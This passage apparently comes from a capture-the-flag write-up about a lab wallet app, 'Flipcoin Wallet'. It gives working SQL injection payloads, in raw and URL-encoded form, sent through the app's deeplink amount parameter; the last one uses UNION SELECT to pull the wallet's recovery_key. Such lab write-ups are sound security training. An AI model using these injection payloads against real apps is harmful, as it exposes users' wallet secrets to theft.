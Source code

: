 <br /><br />

**Using the deeplink**

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001 UNION SELECT 'aaa', 'bbb', 'ccc', 'ddd', 'eee';-- -

flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'aaa',%20'bbb',%20'ccc',%20'ddd',%20'eee';--%20-
```

**notice that the value `'bbb'` is reflected in the app instead of the original wallet address.** This indicates that the injected values from the `UNION SELECT` statement are being returned and rendered in place of the original data.

<br />

![](/assets/img/mhl/FlipcoinWallet/9.jpg)

<br /><br />

**To retrieve the flag, open the following deeplink:**

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001 UNION SELECT 'aaa', recovery_key, 'ccc', 'ddd', 'eee' FROM wallet;-- -

flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'aaa',%20recovery_key,%20'ccc',%20'ddd',%20'eee'%20FROM%20wallet;--%20-
```

This payload uses a `UNION SELECT` to inject the `recovery_key` value from the `wallet` table, allowing it to be displayed in the app.
